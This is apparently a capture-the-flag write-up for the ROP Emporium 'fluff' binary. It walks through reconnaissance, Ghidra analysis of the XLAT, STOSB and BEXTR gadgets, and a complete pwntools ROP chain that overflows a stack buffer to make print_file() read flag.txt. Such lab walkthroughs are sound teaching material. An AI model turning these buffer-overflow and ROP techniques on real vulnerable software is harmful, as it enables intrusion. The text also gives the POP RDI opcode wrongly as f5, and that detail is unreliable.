



## Overview

This is a medium-level ROP (Return Oriented Programming) challenge that requires exploiting a binary with limited gadgets using a backwards approach. Through reconnaissance, static analysis with Ghidra, and gadget hunting, we'll demonstrate how to construct a working exploit despite the unusual constraints highlighted in the challenge description.

## Reconnaissance

Let's do some reconnaissance on the binary and try to understand what we have in our hand:
```bash
$ strings ./fluff
...
pwnme
print_file
main
# (output abbreviated)
```
The strings command reveals three key functions: main(), pwnme(), and print_file(). We'll probably need to call print_file() with the flag filename to read its contents.

Next, we check the binary format and protections:
```bash
$ file ./fluff
...
./fluff: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2b14d9e5fb7a6bcac48b5304b5153fc679c3651c, not stripped
...
```
The binary is a simple ELF 64-bit file dynamically linked to the normal linux interpreter "/lib64/ld-linux-x86-64.so.2"

Finally, we examine the binary protections using rabin2:
```bash
$ rabin2 -I ./fluff
...
nx       true  # <==
os       linux
pic      false
relocs   true
relro    partial
rpath    .
sanitize false
static   false
stripped false
subsys   linux
va       true
# (output abbreviated)
```
One important thing to notice is that the NX is enabled, meaning the stack is non-executable. We cannot execute shellcode directly from the stack, we must use ROP (Return Oriented Programming) to chain existing gadgets.

I also executed the binary directly to see if there was anything useful in the output (it wasn't) and then I try to run it with pwndbg but of course it didn't reveal anything more than what we already have except for two key findings:
```bash
$ pwndbg ./fluff
```
- **buffer size:** We can write to a 512-byte buffer (likely reduced to ~500 bytes due to environment variables on Linux).
- **buffer overflow vulnerability:** the stack is designed to store only 40 bytes not 512(~500), so we can use this to our advantage to create our ROP chain and obtain the flag.

## Static analysis and reasoning 
Let's open up Ghidra and do some static analysis of the binary:

As we can clearly see, the `pwnme` function is not included in the source code of the binary
but only in the external library, so we have fewer functions to work with.
However, there are 3 key functions that immediately catch our attention:

`main()`:



`usefulFunction()`:



`questionableGadgets`:
(ghidra sets this as a label because it is a mix of instructions)



So now we know two things: how `print_file()` works, because we have the example of `usefulFunction()`,
and how we can move data from the stack to the .bss section of the binary.
In fact, there are 3 ASM instructions that are key to making the exploit work:

```ASM
XLAT 
```
(RBX is teorically implicit is only a note from ghidra disassembler)
this instruction will is the equivalent of:
```ASM
MOV AL, byte ptr [RBX + AL] 
```
so it simply use RBX as a pointer to an array and use AL as offset and then write the resoults in the AL (RAX but only 8 bits) so of course it will just take one byte at time.

```ASM
STOSB 
```
(RDI is teorically implicit is only a note from ghidra disassembler)
once again we can translate into a simpler instruction:
```ASM
MOV [RDI], AL
ADD RDI,1
```
it means that it will take the value of AL and put it in the place where RDI points (RDI is used as a pointer so we will have to set it before.) and automatically increamet RDI.
teorically
```ASM
BEXTR RBX,RCX,RDX
```
the translation into simpler ASM is quite complex, but the concept itself is straightforward:
it extracts a field of bits from RCX and writes the result into RBX, with RDX acting as the controller.

Let's break it down:
- RCX = the source value (the bits we want to extract from)
- RDX bits [7:0] = the starting bit position (0 = first bit)
- RDX bits [15:8] = how many bits to extract (the length)
- RBX = destination, where the extracted bits will be written

So for example, if RCX holds a 64-bit value and we set RDX to extract 8 bits starting from position 0,
RBX will contain just that single byte.

### Mistakes and dead ends

let's talk about a few mistakes that i have done during the reasoning of this challenge:
 
**First:** I approached the problem the wrong way when trying to figure out how to load
the correct address into RDI without crashing the program. I kept overthinking it,
until I finally realized that at address `0x4006a3` the solution was already there:
`f5` = `POP RDI` followed by `c3` = `RET` a classic gadget I should have thought of this immediately instead of making a rookie mistake.

**Second:** even though `usefulFunction()` clearly showed me how `print_file()` works,
I was so focused on building the exploit as quickly as possible that I missed a
critical detail: `print_file()` expects a **pointer** to the string, not the string
value directly in the register. I ended up building the wrong exploit and lost time,
when I could have avoided it entirely by paying more attention to the details.

So always remember a few classical gadgets and don't rush during the static analysis take your time and focus trust me that you will end up being much faster than the guy who rushes.

### Reasoning
Now we can talk about the correct logic behind this binary. As we saw before,
the only two ways to write into a memory location like .bss are `STOSB` and `XLAT`.

Here is a breakdown of the reasoning:

- **Set RDI and RBX:** I will load the .bss address `0x601038` into RDI using the
gadget at `0x4006a3`. For RBX, I will load one byte of "flag.txt" at a time,
since that is the file we want to open.

- **Loading the correct byte into RBX:** First, we use `BEXTR` to load the correct address into RBX.
Then `XLAT` reads `[RBX + AL]` (with AL reset to 0) and loads the target byte into AL. The question is how to put the right byte into RBX. There are two possible approaches:
1. Preload every character onto the stack and use POP instructions *(simplest way)*
2. Reuse bytes already present in the binary's instructions, using their address
as the base in RBX and calculating the offset each time
*(I chose this approach to be a bit more creative XD)*

Either way, AL must be reset to `0` before each iteration, since `XLAT` uses AL
as the offset for the RBX lookup — if we don't reset it, the offset will be wrong.

Here is a summary of this step in ASM:
```ASM
MOV AL, [RBX + AL]
MOV [RDI], AL
ADD RDI, 0X1
MOV AL, 0
```
*(repeat for the len of "flag.txt")*

- **Reset RDI:** The last step is to reset RDI back to the start of .bss so that
`print_file()` can read the full string correctly.

## Exploit

As explained in the reasoning section, the exploit follows a fixed pattern for each character.
Let's look at the implementation:
*This can be written more concisely, but I kept it verbose for clarity.*

```python3
#!/bin/env python3
from pwn import *

def exploit():
	context.log_level="info"
	elf = context.binary = ELF("/home/notsafe/pwn/ROP_Emporium/fluff/fluff", checksec=False)
	p = process(elf.path)
	payload = flat(
		b"A"*40,
		p64(0x4006a3), # POP RDI gadget
		p64(0x601038), # RDI = .bss address
		p64(0x400610), # EAX = 0
		p64(0x0),	   # padding - skip the POP RBP instruction
		p64(0x40062a), # BEXTR full setup (first letter only, RDX control byte not set yet)
		# f
		p64(0x4000),   # RDX control byte: start=0, len=64
		p64(0x3fc660), # source address for 'f' (base address - offset 0x3ef2)
		p64(0x400628), # XLAT load byte into AL (AL = [RBX + AL])
		p64(0x400639), # STOSB write AL to [RDI], incremet RDI
		p64(0x400610), # EAX = 0 (reset AL)
		p64(0x0),	   # padding - skip the POP RBP instruction
		p64(0x40062b), # BEXTR - RDX already set, skip control byte load
		# l
		p64(0x3fc513),
		p64(0x400628),
		p64(0x400639),
		p64(0x400610),
		p64(0x0),
		p64(0x40062b),
		# a
		p64(0x3fc6e0),
		p64(0x400628),
		p64(0x400639),
		p64(0x400610),
		p64(0x0),
		p64(0x40062b),
		# g
		p64(0x3fc4dd),
		p64(0x400628),
		p64(0x400639),
		p64(0x400610),
		p64(0x0),
		p64(0x40062b),
		# .
		p64(0x3fc35f),
		p64(0x400628),
		p64(0x400639),
		p64(0x400610),
		p64(0x0),
		p64(0x40062b),
		# t
		p64(0x3fc51c),
		p64(0x400628),
		p64(0x400639),
		p64(0x400610),
		p64(0x0),
		p64(0x40062b),
		# x
		p64(0x3fc7d6),
		p64(0x400628),
		p64(0x400639),
		p64(0x400610),
		p64(0x0),
		p64(0x40062b),
		# t
		p64(0x3fc51c),
		p64(0x400628),
		p64(0x400639),
		#reset RDI and call print_file()
		p64(0x4006a3), # POP RDI gadget
		p64(0x601038), # base address of bss
		p64(0x400620), # call print_file()
		)
	p.recvuntil(b"> ")
	p.send(payload)
	p.recvuntil(b"Thank you!")
	flag = p.recvall()
	print("\n")
	success(flag.decode())
	
exploit()
```

## Result
We successfully called `print_file()` with a pointer to "flag.txt" written in .bss and obtained the flag:

<div class="flag-box">ROPE{a_placeholder_32byte_flag!}</div>

## Takeaways

- Increasing skill with ROP chains
- Working backwards with ROP chains 
- Use of "unusual" gadgets
- Always remember the few classical gadgets that exist
